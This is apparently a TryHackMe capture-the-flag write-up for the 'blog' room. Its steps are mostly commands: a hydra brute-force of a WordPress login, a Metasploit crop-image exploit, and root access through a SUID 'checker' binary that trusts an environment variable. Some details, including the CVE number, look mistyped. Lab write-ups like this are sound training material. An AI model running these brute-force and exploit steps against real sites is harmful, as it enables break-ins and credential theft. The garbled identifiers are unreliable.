 # Writeup for THM Room [blog](https://tryhackme.com/room/blog)

```fish
set -gx IP 10.10.231.216
# Entry in /etc/hosts:
set -gx IP blog.thm
```

## Found http service (wordpress blog)

> Found usernames: `kwheel` & `bjoel`


## Brute force

```fish
 hydra -l kwheel -P /usr/share/wordlists/rockyou blog.thm http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V
```

> Found credentials: `kwheel:cutiepie1`

## Use CVE-2019-89242 | CVE-2019-89242

```fish
msfconsole
# search for crop-image exploit
search crop-image
# use first of list
use 0
# set RHOSTS, USERNAME, PASSWORD
# run exploit
exploit
```

> After this you'll get meterpreter session as `www-html`

## Exploit machine

`cd` to `/user/bjoel` and found `user.txt` with fake content

Search for SUID Flag

```fish
find / -perm /4000 2>/dev/null
```

> Found `/usr/sbin/checker`

Inspect `checker` method

```fish
ltrace checker
```

> `checker` relies on env variable `admin`. So set it with

```fish
export admin=1
```

Run checker and be root:

```bash
checker
whoami
# > root
```

## Get flags

```bash
cat /root/root.txt
find / -name user.txt 2>/dev/null
cat /usr/media/user.txt
```
